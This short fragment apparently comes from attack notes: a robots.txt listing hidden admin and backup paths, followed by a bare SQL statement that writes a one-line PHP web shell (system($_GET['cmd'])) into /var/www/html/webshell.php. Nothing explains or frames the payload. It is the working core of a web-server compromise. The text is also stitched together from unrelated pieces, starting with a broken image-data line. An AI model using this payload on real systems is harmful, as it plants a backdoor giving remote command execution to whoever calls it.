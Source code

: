 User-agent: *

Allow: /
Disallow: /phpmyadmin
Disallow: /admin
Disallow: /mysqladmin
Disallow: /backup/



SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/webshell.php"


